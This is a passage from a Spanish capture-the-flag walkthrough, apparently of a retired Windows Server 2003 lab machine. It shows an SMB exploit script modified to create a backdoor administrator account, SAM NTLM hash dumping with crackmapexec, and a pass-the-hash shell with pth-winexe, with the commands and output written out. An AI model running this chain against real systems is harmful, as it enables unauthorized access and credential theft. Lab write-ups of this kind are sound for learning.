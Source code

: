 Donde el método `service_exec()` es el que se encargara de ejecutar comandos como administrador.

Para acceder a la máquina utilizando el exploit haremos lo siguiente:

Creamos un usuario.
```bash
service_exec(conn, r'cmd /c net user intrusion Hola123! /add')
```
Ejecutamos el exploit.
```console
intrusionz3r0@kali:~$ sudo python zzz_exploit.py 127.0.0.1 samr
```
Lo convertimos en administrador.
```bash
service_exec(conn, r'cmd /c net localgroup Administrators intrusion /add')
```
Ejecutamos nuevamente el exploit.
```console
intrusionz3r0@kali:~$ sudo python zzz_exploit.py 127.0.0.1 samr
```

Ahora ejecuto `crackmapexec` para verificar que el usuario se haya creado correctamente y que pertenecemos al grupo de administradores.

![](https://lh4.googleusercontent.com/CcQQDAaZ3DvFON79VKRDlnQumPfwD4Dm-8Brv7Y6nEnxHqIwVwDgHWZBTBWNNhBELsOrXXJ87ffLZXe75R0VaM2grB_fvp1GoxJM7Aso_Ztcr1_J91Zyme8nvUo6QSNs1ChEjtHs)

Como pueden observar en la segunda ejecución de crackmapexec aparece la palabra `Pwn3d` lo que significa que nosotros tenemos altos privilegios y podemos aprovecharnos de esto para obtener el hash `NTLM` de los usuarios.

Para ello ejecuto el siguiente comando:
```console
intrusion@kali:~$ cme smb 127.0.0.1 -u 'intrusion' -p 'Hola123' --sam
```

![](https://lh4.googleusercontent.com/wEmg1Hg15COxMrOh9eopyKpuboc49yNk2lq5o4JFE3E3DRUr8DCptuNjCTD6m9DYCUZiikMckCphi3YaeVVlqgTyUNHS7svYyd6O2sD876U785jwtqBxCkqa4waXIE394yf_OxY0)

Obtenemos los hashes NTLM de todos los usuarios de la máquina.

# Shell como administrador.

Para finalizar haremos passthehash como el usuario administrator.
```
intrusionz3r0@kali:~$ pth-winexe -U WORKGROUP/Administrator%0a70918d669baeb307012642393148ab:34dec8a1db14cdde2a21967c3c997548 //127.0.0.1 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 5.2.3790]
Copyright (c) 1985-2003 Microsoft Corporation. 

c:\WINDOWS\system32>whoami
grandpa\administrator
```
**¡¡Somos Administradores!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)


Espero te haya gustado, recuerda seguirme en mis redes sociales para estar al pendiente de todo mi contenido.

#### **¡Muchas Gracias!**
